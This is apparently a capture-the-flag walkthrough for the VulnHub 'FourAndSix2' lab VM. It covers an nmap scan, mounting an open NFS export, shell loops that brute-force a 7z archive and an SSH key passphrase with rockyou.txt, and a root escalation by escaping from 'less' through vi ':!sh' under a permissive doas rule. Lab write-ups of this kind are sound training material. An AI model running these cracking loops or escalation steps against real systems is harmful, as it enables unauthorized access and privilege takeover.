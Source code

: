 FourAndSix2

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Mounting NFS share
[+] 7z password cracking online
[+] Cracking id_rsa password
[+] Privilege Escalation abusing SUID file
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.106
Host is up (0.00034s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          782/udp  mountd
|_  100005  1,3          851/tcp  mountd
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: OpenBSD 6.X
OS CPE: cpe:/o:openbsd:openbsd:6
OS details: OpenBSD 6.0 - 6.1
Network Distance: 1 hop

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Mount Present

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus@host:~$ showmount -e 192.168.56.106
Export list for 192.168.56.106:
/home/user/storage (everyone)
setrus@host:~$ sudo mount -t nfs 192.168.56.106:/home/user/storage /mnt/462/
setrus@host:~$ ls /mnt/462
backup.7z
setrus@host:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Tha zip is password protected. John was not able to crack the password but we were able to get the zip dearchived with password :  chocolate
https://www.lostmypass.com/file-types/7z/


cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done




![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/fourandsix2/642.png)

We get the account to login to the server 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
root@setrus:~# ssh user@192.168.56.106 -i id_rsa
Enter passphrase for key 'id_rsa': 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There is a password for id_rsa :  123456789

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Account user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh user@192.168.56.106 -i id_rsa
Enter passphrase for key 'id_rsa': 
Last login: Mon Oct 29 13:53:51 2018 from 192.168.1.114
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
fourandsix2$ find / -perm -u=s -type f 2>/dev/null 
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/doas
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/su
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/pppd
/usr/sbin/traceroute
/usr/sbin/traceroute6
/sbin/ping
/sbin/ping6
/sbin/shutdown


ourandsix2$ cat /etc/doas.conf                                                
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root


fourandsix2$ doas /usr/bin/less /var/log/authlog
/var/log/authlog already locked, session is read-only
Press Enter to continue: 

v (to get into vi)

:!sh 

Press any key to continue [: to enter more ex commands]: 
fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
fourandsix2# 



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





